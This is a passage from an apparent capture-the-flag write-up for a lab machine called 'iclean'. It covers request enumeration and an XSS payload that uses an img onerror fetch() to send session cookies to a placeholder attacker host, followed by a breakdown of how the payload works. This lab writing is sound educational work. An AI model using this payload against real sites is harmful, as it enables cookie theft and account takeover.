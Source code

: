 ## Quote page enumeration

Observing the POST request for the `/quote` page in Burpsuite reveals the server will accept image types. This may lead to the possibility of exfiltrating cookies via XSS.

<img src="/assets/img/2024/iclean/iclean302dashboard.png" alt="iclean302dashboard.png" class="auto-resize">


# Initial access

## XSS to exfiltrate cookies

Given there was a login page, it may be possible to perform an XSS attack to extract session cookies and impersonate a user by appending the following to the URL parameter in the POST request:

```html
service=<img src=x onerror=fetch("http://IP:4444/"+document.cookie);>
```

This attempts to exfiltrate cookies to a remote server.

- `&service=`: This part of the string is the URL parameter named `service`.
- `<img src=x onerror=...>`: This is an HTML `img` tag. Normally, the `src` attribute specifies the path to the image. However, in this case, an `x` is used to trigger an error event.
- `onerror=...`: The `onerror` attribute is an event handler that executes JavaScript code when an error occurs while loading the image (because `src=x` will fail).
- `fetch("http://RemoteIP:4444/"+document.cookie);`: This JavaScript code is executed when the image fails to load. It uses the `fetch` function to make an HTTP request to the attacker's server (`http://ATTACK_IP:4444/`). The `+document.cookie` part appends the document’s cookies to the URL, effectively sending them to the attacker's server.
